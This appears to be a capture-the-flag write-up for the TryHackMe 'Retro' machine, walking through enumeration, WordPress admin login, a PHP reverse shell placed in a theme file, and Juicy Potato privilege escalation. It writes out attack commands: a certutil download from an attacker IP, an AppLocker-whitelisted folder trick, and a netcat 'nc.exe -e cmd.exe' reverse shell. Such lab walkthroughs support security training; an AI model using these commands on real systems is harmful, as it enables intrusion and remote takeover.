 ```yaml
---
layout: default
title : RETRO - THM
---
```

![Screenshot_20220412_165805](https://user-images.githubusercontent.com/24994796/162995378-4a26c32d-9b87-4c83-8fc6-708e12e2d0c7.png)

# Less chatting more hacking 🤤
Let's jump right into it 

Here were working with a retro arcade, games and all that let's see what it's all about .......

Upon firing up the machine we get an IP address

# Enumeration

First thing for every good security operative is enumeration
so we run an nmap scan to know which ports/services are up and running
![Screenshot_20220411_182142](https://user-images.githubusercontent.com/24994796/163006580-65d9d551-6f35-4a59-9fd7-09db4d275494.png)

We see there's  only two ports running 
Port 80 and 3389
That's
- http and rdp
- It's Good Practice to enumerate as much as you can
Running ffuf on the http service we get to know there's a sub-directory
![Screenshot_20220411_182124](https://user-images.githubusercontent.com/24994796/163007689-28031384-a937-4854-b0aa-e4af24cd3d0c.png)
You can run ffuf recursively or do it as i did
Heading to the retro directory we see it's a site for games and the likes
![Wade](https://user-images.githubusercontent.com/24994796/163008064-ed7094a8-5744-43fe-bb30-74e4fb075302.png)
In our scans and checking the source code we see it's CMS is wordpress 5.2.1
Head over to the log in page (bottom of the website)
We're Greeted with a thpical wordpress login page
All we need is User credentials 
Checking the source code we notice a comment link
![Screenshot_20220411_184823](https://user-images.githubusercontent.com/24994796/163009443-8e22a36c-66d3-4a95-b1fb-49f3a7c8d024.png)
Heading to the comment link we get this
![Screenshot_20220411_181132](https://user-images.githubusercontent.com/24994796/163009624-63e36c55-b118-45fa-9b81-ea35ccaead9e.png)
So We can guess the User name is wade and you can try the password from the gotten comment 
Logging in we're greeted with a dashboard
![Screenshot_20220411_181956](https://user-images.githubusercontent.com/24994796/163010214-63310cf3-2f1a-47ff-a75f-f13f564420b8.png)

# Exploitation

We can upload an RCE to wordpress CMS we just have to place it well
Your regular pentest monkey rev-shell won't work (didn't work for me)
So let's go for Rev-shell 2.5
![Screenshot_20220411_191305](https://user-images.githubusercontent.com/24994796/163010783-3e807405-c3c0-446a-9ee6-93b67be4e223.png)
[LINK TO THE REV](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php)
Replace the archive.php file
![Screenshot_20220411_221725](https://user-images.githubusercontent.com/24994796/163014318-fe41e4f9-48b6-4897-9710-0f54e670ad66.png)
- Change the ip and port at the bottom of the script  
- start a nc listener 'rlwrap nc -lvnp $port"
- navigate to the archive.php "http://10.10.149.150/retro/wp-content/themes/90s-retro/archive.php"
- Remember Change the IP 😴

![Screenshot_20220411_191216(1)](https://user-images.githubusercontent.com/24994796/163015617-adf3ddb7-f8d2-486f-a563-f4a697091fa4.png)
We're in 😎
- First thing first enumeration
- who are we ?
- What are our Privileges ?

# Seeing SeImpersonate.... is Enabled we can use Juicy Potato for PrivEsc
- Get juicy potato, netcat binary
- Host it on your machine
- Download it in the victim machine(certutil -urlcache -f attacking-ip:port/file file)
Pls note there could be an applocker on windows, In our case there is cos if you try running the exe file you'll get a shell that's stuck 
To avoid that download the exe files and do everything you want to do in the applocker whitelisted path "C:\Windows\System32\spool\drivers\color"
![Screenshot_20220411_213900](https://user-images.githubusercontent.com/24994796/163017202-6638c509-89fa-4fa0-9155-0b91d7cdc067.png)

![Screenshot_20220411_213845](https://user-images.githubusercontent.com/24994796/163017351-98358b37-5a8b-452e-865e-316f8de599ac.png)
So yh everthing seems good 
So now we create a bat file "echo C:\Windows\System32\spool\drivers\color\nc.exe -e cmd.exe  IP 1515 > reverse.bat"
![Screenshot_20220411_220833](https://user-images.githubusercontent.com/24994796/163017697-95b0f283-9feb-4b10-8ef1-ac868694f249.png)
Running "wmic Service get name,displayname,pathname,startmode" gives us a list of running services
Choosing a CLISD
[Juicy Potato CLISD](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2016_Standard/)

Start a netcat listener in a new tab on your machine with the port in the bat file
![Screenshot_20220411_220833](https://user-images.githubusercontent.com/24994796/163018886-290fc5c7-253c-4b07-9f66-198cada7241a.png)

![Screenshot_20220411_220856](https://user-images.githubusercontent.com/24994796/163018998-413404c0-8037-4008-896d-9ecdacede93a.png)

# AND WE ARE DONE
LOOK OFR FILES ON YOUR OWN, it's your little task

Hit me up on [Twitter](https://twitter.com/abdulmalik_ttg) if you run into any issues



<br> <br>
[Back To Home](../../index.md)
<br>

